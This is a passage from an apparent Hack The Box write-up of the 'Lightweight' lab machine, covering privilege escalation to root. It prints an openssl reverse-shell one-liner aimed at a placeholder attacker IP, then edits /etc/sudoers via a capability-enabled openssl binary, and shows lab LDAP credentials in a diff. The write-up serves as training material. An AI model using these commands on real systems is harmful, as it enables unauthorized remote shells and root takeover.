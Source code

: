 ### root Shell

Of course I want a root shell, and arbitrary read and write offers many paths on Linux. One path that might be tempting is to use `openssl` to get a shell, using something like [this](https://medium.com/@int0x33/day-43-reverse-shell-with-openssl-1ee2574aa998) or like I did in [Ethereal](/2019/03/09/htb-ethereal.html#shell-via-openssl). That would be using something like:

```

mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s

```

The reason that won’t work is because while the `openssl` process has capabilities, the `/bin/sh` does not, so that shell will still run without the abilities I am looking for.

But, I can fall back to things like adding a user in `/etc/passwd`, overwriting a suid binary, or adding a root cron job. In this case, I’ll edit `/etc/sudoers`.

First I’ll make a copy of the existing file in `/dev/shm`. Then I’ll add a line to allow my current user to

```

[ldapuser1@lightweight ~]$ ./openssl base64 -in /etc/sudoers | base64 -d > /dev/shm/t
[ldapuser1@lightweight ~]$ echo "ldapuser1    ALL=(ALL)       ALL" >> /dev/shm/t
[ldapuser1@lightweight ~]$ cat /dev/shm/t | base64 | ./openssl enc -d -base64 -out /etc/sudoers

```

Now I have an entry in the `sudoers` file, so I can `sudo su`:

```

[ldapuser1@lightweight ~]$ sudo su
[sudo] password for ldapuser1:
[root@lightweight ldapuser1]# 

```

## Beyond Root

### Which ldap Creds / status.php

When I found ldapuser1’s creds in the `backup.7z` file, I was confused. I had identified that visiting `status.php` initiated ldap activity, but I had captured activity from ldapuser2. Once I had a shell as root, I went into the web directories and grabbed a copy of `status.php`. Turns out I was right:

```

root@kali# diff status.php status.php.actual
1c1
< <!DOCTYPE html>
---
> CTYPE html>
23,24c23,24
< $username = 'ldapuser1';
< $password = 'f3ca9d298a553da117442deeb6fa932d';
---
> $username = 'ldapuser2';
> $password = '8bc8251332abe1d7f105d3e53ad39ac2';
34c34
< $dn="uid=ldapuser1,ou=People,dc=lightweight,dc=htb";
---
> $dn="uid=ldapuser2,ou=People,dc=lightweight,dc=htb";

```